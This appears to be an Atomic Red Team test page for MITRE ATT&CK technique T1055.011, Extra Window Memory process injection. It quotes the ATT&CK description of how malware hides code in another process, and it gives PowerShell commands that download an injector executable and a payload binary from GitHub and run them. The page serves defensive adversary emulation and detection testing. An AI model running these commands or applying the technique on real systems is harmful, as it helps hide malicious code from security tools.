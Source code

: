 ```yaml
---
tags: [T1055_011, atomic_test]
filename: "[[T1055.011|T1055.011 - Process Injection: Extra Window Memory Injection]]"
---
```


# T1055.011 - Process Injection: Extra Window Memory Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/011)
<blockquote>Adversaries may inject malicious code into process via Extra Window Memory (EWM) in order to evade process-based defenses as well as possibly elevate privileges. EWM injection is a method of executing arbitrary code in the address space of a separate live process. 

Before creating a window, graphical Windows-based processes must prescribe to or register a windows class, which stipulate appearance and behavior (via windows procedures, which are functions that handle input/output of data).(Citation: Microsoft Window Classes) Registration of new windows classes can include a request for up to 40 bytes of EWM to be appended to the allocated memory of each instance of that class. This EWM is intended to store data specific to that window and has specific application programming interface (API) functions to set and get its value. (Citation: Microsoft GetWindowLong function) (Citation: Microsoft SetWindowLong function)

Although small, the EWM is large enough to store a 32-bit pointer and is often used to point to a windows procedure. Malware may possibly utilize this memory location in part of an attack chain that includes writing code to shared sections of the process’s memory, placing a pointer to the code in EWM, then invoking execution by returning execution control to the address in the process’s EWM.

Execution granted through EWM injection may allow access to both the target process's memory and possibly elevated privileges. Writing payloads to shared sections also avoids the use of highly monitored API calls such as <code>WriteProcessMemory</code> and <code>CreateRemoteThread</code>.(Citation: Elastic Process Injection July 2017) More sophisticated malware samples may also potentially bypass protection mechanisms such as data execution prevention (DEP) by triggering a combination of windows procedures and other system functions that will rewrite the malicious payload inside an executable portion of the target process.  (Citation: MalwareTech Power Loader Aug 2013) (Citation: WeLiveSecurity Gapz and Redyms Mar 2013)

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via EWM injection may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via Extra Window Memory (EWM) x64 executable](#atomic-test-1---process-injection-via-extra-window-memory-ewm-x64-executable)


<br/>

## Atomic Test #1 - Process Injection via Extra Window Memory (EWM) x64 executable
Hooks functions of main process to inject a payload via Extra Window Memory (EWM) injection technique

**Supported Platforms:** Windows


**auto_generated_guid:** 93ca40d2-336c-446d-bcef-87f14d438018





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| arch | Architecture of payload. One of (x64, x86) | string | x64|
| exe_binary | PE binary for EWM injection | path | PathToAtomicsFolder&#92;T1055.011&#92;bin&#92;T1055.011_#{arch}.exe|
| payload_file | raw payload to inject | path | PathToAtomicsFolder&#92;T1055.011&#92;bin&#92;payload.exe_#{arch}.bin|


#### Attack Commands: Run with `powershell`! 


```powershell
#{exe_binary}
```

#### Cleanup Commands:
```powershell
Get-Process -Name Notepad -ErrorAction SilentlyContinue | Stop-Process -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: T1055.011x64.exe and payload must exist on disk at specified location (#{exe_binary} and #{payload_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{exe_binary}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{exe_binary}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.011/bin/T1055.011_#{arch}.exe" -OutFile "#{exe_binary}" -UseBasicParsing
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.011/bin/payload.exe_#{arch}.bin" -OutFile "#{payload_file}" -UseBasicParsing
```




<br/>
